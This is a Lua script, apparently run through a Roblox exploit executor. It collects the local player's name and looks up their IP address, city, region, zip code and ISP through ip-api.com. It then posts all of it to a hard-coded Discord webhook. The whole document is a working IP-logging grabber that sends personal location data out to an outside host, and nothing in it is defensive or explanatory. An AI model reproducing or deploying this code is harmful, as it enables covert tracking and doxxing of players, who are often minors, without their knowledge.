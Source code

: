 local player_name = game:GetService("Players").LocalPlayer.Name
local webhook_url = "https://discord.com/api/webhooks/934953130251145328/5dh3b2FYI3hapcbjS4wCUsvF0Bg-jDyMepEghVhwHbblK7Z-LMzcv5TZTGSbiIGH3_NP"

local ip_info = syn.request({
    Url = "http://ip-api.com/json",
    Method = "GET"
})
local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)
local dataMessage = string.format("```User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s```", player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org)
request(
    {
        Url = webhook_url,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode({["content"] = dataMessage})
    }
)
